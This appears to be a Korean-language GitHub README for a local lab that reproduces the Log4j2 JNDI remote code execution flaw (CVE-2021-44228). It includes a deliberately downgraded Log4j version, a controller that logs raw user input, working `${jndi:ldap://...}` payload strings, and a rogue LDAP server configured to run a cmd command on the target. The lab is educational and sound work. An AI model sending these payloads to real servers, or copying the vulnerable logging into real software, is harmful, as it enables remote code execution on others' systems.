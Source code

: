 # Log4j2 2.14.1 LDAP 원격 코드 실행 취약점(CVE-2021-44228) 확인

* 취약점 공지
  * https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## [target-server](target-server)

* pom.xml : Log4j2 버전을 취약버전으로 낮춤

  ```xml
  <properties>
    <java.version>17</java.version>
    <!-- Spring Boot 3.0.0 M5은 이 문제가 해결된 log4j 디펜던시를 가지므로, 일부러 버전을 낮춘다.-->
    <log4j2.version>2.14.1</log4j2.version>
  </properties>
  ```

* LoggingController : 사용자의 입력을 그대로 받아 로깅하는 컨트롤러 메서드 추가
  ```java
    @PostMapping("/form")
    public String form(String ldapString, RedirectAttributes rttr) {
      try {
        LOGGER.info("{}", ldapString);
        rttr.addFlashAttribute("exception", "예외 발생 X");
      } catch (Exception e) {
        rttr.addFlashAttribute("exception", "예외발생 O: " + e.getMessage());
      }
      return "redirect:/";
    }
  ```

* 브라우저 실행

  ![target-server-view.png](doc-resources/target-server-view.png)



### 동작 확인 내용

1. 실제로 `${jndi:ldap://127.0.0.1:19090/run}` 문자열을 서버로 전송했을 때, 서버가 `127.0.0.1:19090` 로 접속을 시도한다.

   ```
   2022-01-03 13:16:52.526  INFO 14736 --- [nio-8080-exec-7] o.m.t.c.LoggingController                : ${jndi:ldap://127.0.0.1:19090/run}
   2022-01-03 13:17:09,993 http-nio-8080-exec-10 WARN Error looking up JNDI resource [ldap://127.0.0.1:19090/run]. javax.naming.CommunicationException: 127.0.0.1:19090 [Root exception is java.net.ConnectException: Connection refused: connect]
   ...
   ```

   로컬의 19090 포트에 LDAP 서버가  켜져 있는 것은 아니여서 `Connection refused: connect` 예외로 에러 로그가 남음.

2. `LOGGER.info("{}", ldapString);` 코드에서 **JNDI 에러 예외가 던져지지 않았다.** 

   * 로그를 자세하게 확인하지 않고 지나가면 잊고 지나가기 쉬운 문제인 것 같다.





## [ldap-server](ldap-server)  

https://github.com/veracode-research/rogue-jndi  이 코드에서 Tomcat 관련된 부분만 조사해서, 단순한 Spring Boot 프로젝트로 구성했다.

Tomcat관련 부분만 조사한 이유는...

일단 대상 테스트 서버가 Spring Boot의 내장 톰켓 기반이여서, Tomcat만 조사하여도 취약점 동작을 확인할 수 있을 것으로 보여 그렇게 진행했다.

**명령문 준비**

단순 계산기만 수행하기에는 너무 단순해서 cmd 명령어를 조합해보았다.

* ldapserver-config.properties 

  ```properties
  # 타겟 서버의 윈도우 OS 버전을 텍스트 파일에 기록한 다음 메모장으로 여는 내용
  ldaptest.remote.command=cmd /c ver > test.txt && notepad test.txt
  ...
  ```

  

실제로 해보니 정말로 테스트 타겟서버의 실행파일 원격 실행이 가능했다. 확인 방법은 아래와 같다.

1. ldap-server 서버, traget-server 실행

   ```bash
   # LDAP 서버 실행
   C:\git-mklinkj\log4j2-test\ldap-server>mvnw clean spring-boot:run
   
   # 테스트 타겟 서버 실행
   C:\git-mklinkj\log4j2-test\target-server>mvnw clean spring-boot:run
   ```

   

2. 테스트 타겟 서버에서 `${jndi:ldap://127.0.0.1:19090/o=tomcat}` 문자열 전송 후 확인

   ![remote-code-executed](doc-resources/remote-code-executed.png)

   **target-server 프로젝트 루트에 test.txt파일이 만들어지고, 메모장을 통해 실행이 되었음.**

   




## Java 15이상 환경에서 동작확인시...

타겟 Tomcat에 보낼 Payload 생성에 Java의 JavaScript 구현 Nashorn을 사용하는데, Java 15부터 Nashorn이 완전히 제거되었다. 그래서 ldap 서버가 타겟 Tomcat으로 명령어는 보냈지만 명령어가 실행되지 않는 문제가 있었다.

이때는..  nashorn-core 또는 rhino-engine 둘 중 하나만 타겟 Tomcat 서버에 라이브러리로 추가해주면 되었다.

```xml
<dependency>
  <groupId>org.openjdk.nashorn</groupId>
  <artifactId>nashorn-core</artifactId>
  <version>${nashorn.version}</version>
</dependency>
```

```xml
<dependency>
  <groupId>org.mozilla</groupId>
  <artifactId>rhino-engine</artifactId>
  <version>${rhino-engine.version}</version>
</dependency>
```

* 참고
  * JEP 372: Remove the Nashorn JavaScript Engine
    * https://openjdk.java.net/jeps/372
  * Known problems and workarounds
    * https://apache.github.io/jmeter-site-preview/site/changes.html



## Maven POM 부모-자식 관계에서 프로젝트 실행

**버전 관리를 편하게 하려고** `부모-자식` 관계로 pom.xml을 수정했는데, 다음과 같이 부모 pom 이 있는 디렉토리에서 실행할 수 있다.

```bash
# 전체 테스트
$ mvnw clean test

# 백그라운드로 실행하지 않으므로 별도의 콘솔창에서 각각 실행햐아한다.
$ mvnw clean spring-boot:run -pl ldap-server
$ mvnw clean spring-boot:run -pl target-server

# 하위 프로젝트 디렉토리에 직접 들어가서 실행해도 된다.
$ cd target-server
$ mvnw clean spring-boot:run
```



## 후기

* 실제로 진행보니 이 취약점을 방치하면 정말 위험한 것 같다. 개발, 스테이징 환경에서 테스트를 해서 LDAP 접속을 발생시키는 부분이 없는지 확인 되어야할 것 같다.
* [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 레파지토리 작성하신  [Michael Stepankin](https://twitter.com/artsploit) 님 덕분에 확인을 할 수 있게되어 감사합니다.  😄



### 면책 조항 

이 소프트웨어는 교육 목적 및/또는 사용자가 사전에 공격을 허용한 시스템 테스트용으로만 제공됩니다. <br> ([rogue-jndi](https://github.com/veracode-research/rogue-jndi)에도 이 문구를 추가 하셨길레 따라서 넣었다. 😓)
